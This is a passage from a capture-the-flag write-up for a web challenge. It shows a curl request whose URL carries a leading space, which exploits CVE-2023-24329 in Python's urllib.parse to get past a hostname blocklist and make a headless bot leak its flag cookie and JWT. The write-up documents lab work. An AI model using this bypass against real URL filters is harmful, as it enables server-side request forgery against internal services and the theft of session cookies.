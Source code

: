 Huh, interesting. Is the challenge using Python version <= 3.11.3?

`Dockerfile`:

```bash
FROM python:3.11.3-alpine3.18
[...]
```

Oh it is!

## Exploitation

Armed with the above information, we can get the flag via **sending a POST request to `/flag` with parameter `url= http://127.0.0.1/flag`**. By doing so, the parsed hostname will be an empty string, which passes the `blacklist` check. Then, the headless Chrome browser will go to ` http://127.0.0.1/flag`. After Chrome's URL normalization, the URL will be `http://127.0.0.1/flag`, which means the bot has the flag cookie, and the cookie will be rendered to us.

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Firebird-Chan's-Travel-Guide)-[2025.01.13|16:30:05(HKT)]
└> curl -X POST http://phoenix-chal.firebird.sh:36007/visit --data-urlencode 'url= http://127.0.0.1/flag'
[...]
            <span class="my-4 text-4xl font-bold break-all">[[{'domain': '127.0.0.1', 'httpOnly': False, 'name': 'cookie', 'path': '/', 'sameSite': 'Lax', 'secure': False, 'value': 'firebird{wow_CVE-2023-24329_challenge_very_cool_at_least_I_have_cookies_QAQ}'}, {'domain': '127.0.0.1', 'httpOnly': False, 'name': 'jwt', 'path': '/', 'sameSite': 'Lax', 'secure': False, 'value': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJnaXZlbl91cmwiOiIgaHR0cDovLzEyNy4wLjAuMS9mbGFnIn0.5Z8ApQybDZXaw6qgkgdAPga56chdoVLnDdGiOfibLL4'}]]</span><br>
[...]
```

- Flag: **`firebird{wow_CVE-2023-24329_challenge_very_cool_at_least_I_have_cookies_QAQ}`**

## Conclusion

What we've learned:

1. CVE-2023-24329 `urllib.parse.urlparse` parser differential